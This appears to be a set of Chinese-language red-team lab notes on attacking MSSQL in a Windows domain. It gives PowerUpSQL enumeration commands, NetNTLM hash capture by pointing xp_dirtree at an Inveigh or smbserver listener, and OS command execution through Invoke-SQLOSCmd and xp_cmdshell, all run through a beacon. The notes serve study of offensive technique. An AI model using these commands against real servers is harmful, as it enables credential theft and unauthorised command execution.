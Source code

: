 找是否可以连接数据库
```
Get-SQLConnectionTest -Instance "srv-1.dev.cyberbotic.io,1433" | fl
```

详细的连接实例信息

```
Get-SQLServerInfo -Instance "srv-1.dev.cyberbotic.io,1433"
```

执行sql命令
```
Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select @@servername"
```

```mssqlclient.py```连接mssql，需要账号密码

```
python3 /usr/local/bin/mssqlclient.py -windows-auth DEV/bfarmer@10.10.17.25
```

## NetNTLM Capture

方法1

1. 监听
首先在本地监听，使用[InveighZero](https://github.com/Kevin-Robertson/InveighZero)进行监听，需要本地管理员权限
```
beacon> execute-assembly C:\Tools\InveighZero\Inveigh\bin\Debug\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N
```
2. 触发
在mssql上，执行命令```EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1```，10.10.17.231的IP地址就是上面监听的机器

方法2

可以使用 WinDivert + rportfwd把smb流量转发到teamserver（就是kali机），然后再kali使用[smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)监听，这个方法前面几章已经有展示。

监听
```
root@kali:~# python3 /usr/local/bin/smbserver.py -smb2support pwn .
```


## MSSQL Command Execution

PowerUpSQL使用```Invoke-SQLOSCmd```命令

```
beacon> powershell Invoke-SQLOSCmd -Instance "srv-1.dev.cyberbotic.io,1433" -Command "whoami" -RawResults

dev\svc_mssql
```

原生MSSQL使用``` xp_cmdshell ```命令
```
EXEC xp_cmdshell 'whoami';
```

查看xp_cmdshell是否开启
```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```

value=0,表示没有开启


```